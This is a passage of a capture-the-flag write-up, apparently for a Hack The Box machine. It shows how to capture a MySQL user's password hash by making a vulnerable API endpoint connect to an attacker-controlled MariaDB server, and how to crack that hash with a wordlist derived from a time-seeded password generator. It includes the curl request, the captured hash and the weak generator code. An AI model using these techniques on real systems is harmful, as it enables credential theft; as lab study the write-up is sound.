 ```
ALTER USER jack@ IDENTIFIED WITH mysql_native_password BY 'youpassword';
```
Now this again hows no hash in wireshark. Salts changes with every request to prevent against replay attacks.

Now let's generate valid hash by combining evrything together `hex(salt_part1+salt_part2)+DB_hash` but one that still wen wrong was salt. After converting in hex it was unusaully longer than the format specified. Looks like i am getting salt for caching_sha_password plugin. Even me changing it didn't had any affect. 

Let's try MariaDB that's where ippsec did.

### Extracting jack's hash

I had to remove mysql completely as i messed up things and did fresh install of mariadb. Following previous steps, i changed bind address to **0.0.0.0** in */etc/mysql/mariadb.conf.d/50-server.cnf* file and restarted the service. 

Added a user jack in database `create user jack@toby.htb identified by 'password';`, and mariadb didn't add any plugin for this user.

![Screenshot from 2022-04-19 15-45-59](https://user-images.githubusercontent.com/79413473/163982646-05d94f3c-e2f5-41fa-b7b4-4b98eadc035d.png)

Now i sent curl request `proxychains curl 172.69.0.104/api/dbtest?secretdbtest_09ef=10.10.16.6` . Now it successfully showed correct hash and salt along with username.

![Screenshot from 2022-04-19 15-47-41](https://user-images.githubusercontent.com/79413473/163982925-2590070a-1487-4d6a-94f3-f6a01aeeea27.png)

![2022-04-19_15-47](https://user-images.githubusercontent.com/79413473/163982944-b30f74de-cfb1-44af-a8fe-43ec620f05b3.png)

Let's quickly complete the hash and crack it with hashcat

```
$mysqlna$293e3e5a2e706d543d7145435f342764466e7831*30e66315818a7c8792c175424b290754eb803c6f
```
but rockyou won't be able to crack it. 

### Cracking password by custom wordlist

Now if you remember app.py file it had a password generator, maybe jack has also used that.

```
#07/07/21 - added creds
#10/07/21 - removed creds and placed in environment
```

```
chars = string.ascii_letters + string.digits
random.seed(int(time.time()))
password = ''.join([random.choice(chars) for x in range(32)])
```
Now this password generation logic is not so secure, as it's seeding time.time() to random. seed tells random from where to start, time.time() returns epoch time, int is rounding off the epoch.

![Screenshot from 2022-04-19 16-00-42](https://user-images.githubusercontent.com/79413473/163985001-3126e423-1ace-42e6-a1db-edbdeea519c5.png)
